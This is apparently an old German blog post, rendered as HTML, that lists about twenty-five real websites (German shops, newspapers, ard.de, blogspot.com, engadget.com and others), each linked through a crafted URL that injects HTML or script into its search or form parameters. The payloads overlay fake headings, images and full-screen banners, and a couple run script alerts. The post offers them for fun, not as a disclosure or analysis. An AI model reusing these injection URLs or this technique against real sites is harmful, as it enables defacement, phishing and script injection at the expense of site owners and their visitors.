 <html><body><p>Und heute wieder einige nette XSS Lücken,<br>
es sind unter anderem ein paar Shops, der Hoster von ccc.de, ard.de, <strong>blogspot.com</strong> und ein paar Zeitungen dabei.<br>
Viel Spaß damit!<br>
<br>
<a href="http://www.getdigital.de/index/searchresult/?search=%3Cimg%20src=http://www.thinkgeek.com/images/tg-logo.gif%3E" target="_blank">getdigital.de</a><br>
<a href="http://www.pro-linux.de/cgi-bin/s.cgi?q=%3C%2Ftitle%3E%3C%2Fhead%3E%3Cbody%3Eownd+by+M%24%3Cbr%3E%3Cbr%3E%3Cbr%3E%3C%2Fbody%3E%3C%2Fhtml%3E%3C%21--&amp;cs=iso8859-1&amp;cs=iso8859-1&amp;gr=off&amp;ul=" target="_blank">pro-linux.de</a><br>
<a href="http://www.snafu.de/cgi-bin/dotnet/web/archiv.cgi?search=%22%3E%3Cbr%3E%3Cimg%20src=%22http://www.ccc.de/images/logos/l_chaosknoten_1.png%22%3Ch1%3EUnd%20ich%20dachte,%20CCC%20sei%20sicher...%3C/h1%3E%3E&amp;serv=www.snafu.de&amp;action=List&amp;table=artikel&amp;rubrik=1&amp;displrow=id,titel,datum&amp;verlinkt=titel&amp;orderby=datum" target="_blank">snafu.de</a> (bereits von anderen während des 23C3 gefunden, aber immer noch nicht gefixt)<br>
<a href="http://www.verbraucherzentrale-nrw.de/link27473A.html?search=%27%3E%3Ch1%3ESch%26uuml%3Btzt+die+Verbraucher%21%3C%2Fh1%3E%3Cimg+src%3D%22http%3A%2F%2Fwww.microsoft.com%2Flibrary%2Ftoolbar%2F3.0%2Fimages%2Fbanners%2Fms_masthead_ltr.gif%22%3E%3Cbr%3E&amp;x=0&amp;y=0" target="_blank">verbraucherzentrale-nrw.de</a><br>
<a href="http://www.vz-bawue.de/link271142A.html?search=%27%3E%3Ch1%3ESch%26uuml%3Btzt+die+Verbraucher%21%3C%2Fh1%3E%3Cimg+src%3D%22http%3A%2F%2Fwww.microsoft.com%2Flibrary%2Ftoolbar%2F3.0%2Fimages%2Fbanners%2Fms_masthead_ltr.gif%22%3E&amp;x=0&amp;y=0" target="_blank">vz-bawue.de</a><br>
<a href="https://bugtrack.alsa-project.org/wiki/wikka.php?wakka=TextSearch&amp;phrase=%3Ch1%3ENOT+powered+by%3C%2Fh1%3E%3Cbr%3E%3Cimg+src%3D%22http%3A%2F%2Flinux-sound.org%2Fimages%2Foss-logo.gif%22%3E%3Ch2%3ELook+for+this+nice+and+secure+HTTPS+site%21%3C%2Fh2%3E" target="_blank">alsa-project.org</a> (HTTPS!)<br>
<a href="http://www.netzeitung.de/servlets/search?execute=query&amp;p_search_id=SEARCH_ALL&amp;p_qry=%22%3E%3Cdiv%20style=%22position:fixed;left:0;top:0;width:1500;height:1500;color:red;background-color:white%22%3ENICHT-nett-Zeitung%3C/div%3E&amp;p_newsItemGroup=0&amp;auswahl=" target="_blank">netzeitung.de</a><br>
<a href="http://xchat.org/cgi-bin/search.pl?str=%3Ch1%3EYou%20know,%20OpenSource%20is%20great,%20but%20OpenDoors%20are%20evil...%3C/h1%3E%3Cimg%20src=%22http://mirc.com/logo.gif%22%3E&amp;cat=0&amp;Submit=Search" target="_blank">xchat.org</a><br>
<a href="http://www.pearl.de/search.jsp?query_type=1&amp;query=%22%3E%3Cdiv%20style=%22position:fixed;left:0;top:0;width:1000;height:1000;color:red;background-color:white%22%3Eamazon?%3C/div%3E&amp;x=0&amp;y=0" target="_blank">pearl.de</a><br>
<a href="http://www.computerbild.de/php/2003/navi2002.php?RUBRIK=%3Ch1%3Ect%20Leser%20wissen%20mehr%3C/h1%3E%3Cimg%20src=http://www.heise.de/ct/icons/ct_logo.gif%3E%3Cbr%3E" target="_blank">computerbild.de</a><br>
<a href="http://news.zgk.de/newsletter_verwaltung.php?aktion=1&amp;gruppen_id=12&amp;email2=%22%3E%3Ch1%3EBild-Leser....%3C/h1%3E%3Cimg%20src=http://www.bild.t-online.de/BTO/System/Bilder/logo.gif%3E%3Cbr%3E" target="_blank">zgk.de</a><br>
<a href="http://linz.irc.at/site/l-news.php?lang=%22%3E%3Cdiv%20style=position:fixed;left:0;top:0;width:1000;height:1000;color:red;background-color:white;font-size:60pt%3EHallo%20Jungs.%20Hallo%20ZZyZZ%3C/div%3E" target="_blank">irc.at</a><br>
<a href="http://www.linux.de/member/lost.php3?email=%22%3E%3Ch1%3EWindows%20oder%20Linux%20oder%20doch%20MacOS...%3C/h1%3E%3Cimg%20src=%22http://cdn-85.cdn.buzznet.com/assets/users9/keithlam/default/Tux_says_Windows_sucks--feat-msg-1127113593-2.jpg%22%3E" target="_blank">linux.de</a><br>
<a href="http://bash.insiderz.de/index.php?quoteID=%3Ch1%3EHail%20HERZ!%3C/h1%3E%3Cimg%20src=http://www.german-freakz.net/images/gf-banner.jpg%3E" target="_blank">insiderz.de</a><br>
<a href="http://www.torrent.to/torrent/start_search.php?Active=Moviez&amp;Search=%22%3E%3Cdiv%20style=position:fixed;left:0;top:0;width:1000;height:1000;color:red;background-color:white;font-size:60pt%3Eillegal?%3C/div%3E" target="_blank">torrent.to</a><br>
<a href="https://shop.wolters-kluwer.de/suche.html?suche=%3Cimg%20src=%22http://cdn-85.cdn.buzznet.com/assets/users9/keithlam/default/Tux_says_Windows_sucks--feat-msg-1127113593-2.jpg%22%3E&amp;submitButtonName=Suchen" target="_blank">wolters-kluwer.de</a> (HTTPS!)<br>
<a href="http://sport.ard.de/sp/komponente/suchen/index.jhtml?q=%3Ch1%3ESport%20ist%20Mord!%3C/h1%3E&amp;x=0&amp;y=0" target="_blank">ard.de</a><br>
<a href="http://www.evendi.de/jsp/eVendi2004/search.jsp?name=%3Cimg%20src=%22http://n-tv.de/s/ntv_logo_head_95x35.gif%22%3E" target="_blank">evendi.de</a> (thx to wodkahexe)<br>
<a href="http://koelnticket.de/index.php?mapid=suchergebnis&amp;mode=newsearch&amp;schnellsuche=1&amp;ev_status=-1&amp;suchstring=%3Cimg%20src=%22http://www.drakkar.de/images/lordi_hardrockhallelujah.jpg%22%3E&amp;x=0&amp;y=0&amp;zeitraum=0&amp;am_tag=0&amp;am_monat=0&amp;am_jahr=0&amp;mapid=suchergebnis&amp;mode=newsearch&amp;ort=Ihrer+Stadt" target="_blank">koelnticket.de</a><br>
<a href="http://www.dticket.de/events.asp?suchart=stichwort&amp;Stichwort=%3Cimg%20src=%22http://www.drakkar.de/images/lordi_hardrockhallelujah.jpg%22%3E&amp;suche2=zeitraum&amp;imageField2.x=0&amp;imageField2.y=0" target="_blank">dticket.de</a><br>
<a href="https://www.rp-online.de/app/suche/?head_suchen=Suchen&amp;search=%3Ch1%3EBild%20dir%20deine%20Meinung%3C/h2%3E%3Cimg%20src=%27http://www.bild.t-online.de/BTO/System/Bilder/logo.gif%27%3E&amp;searchin=rpo" target="_blank">rp-online.de</a><br>
<a href="http://n-tv.de/472.html?ei=ISO-8859-1&amp;fr=cb-ntv&amp;meta=1&amp;query=%3Cscript%3Ealert%28%22bla%22%29%3C%2Fscript%3E&amp;p=%3Cscript%3Ealert%28%22bla%22%29%3C%2Fscript%3E&amp;m=n" target="_blank">n-tv.de</a> (thx to wodkahexe, bereits von n-tv behoben)<br>
<a href="http://www.linuxdevices.com/cgi-bin/news_view.cgi?sk=%22%3E%3Cimg%20src=%22http://www.microsoft.com/library/toolbar/3.0/images/banners/ms_masthead_ltr.gif%22%3E&amp;st=all&amp;view=Search&amp;ss=newwest" target="_blank">linuxdevices.com</a><br>
<a href="http://momtoadiva.blogspot.com/search?q=%3C/title%3E%3C/head%3E%3Cbody%3E%3Ch1%3EWTF?!%3C/h1%3E%3Cimg%20src=%22http://www.google.com/intl/en_ALL/images/logo.gif%22%3E" target="_blank">blogspot.com</a><br>
<a href="http://www.crabbel.de/index.php?cms=suchen&amp;sprache=de&amp;allowed=1&amp;keyword=%3Ch1%3Eso%20sekure%20u%20r%3C%2Fh1%3E&amp;submit.x=0&amp;submit.y=0" target="_blank">crabbel.de</a> (thx to wodkahexe)<br>
<a href="http://www.engadget.com/search/?q=%3Ch1%3EYOU%20should%20know%20better...%3C/h1%3E" target="_blank">engadget.com</a></p></body></html>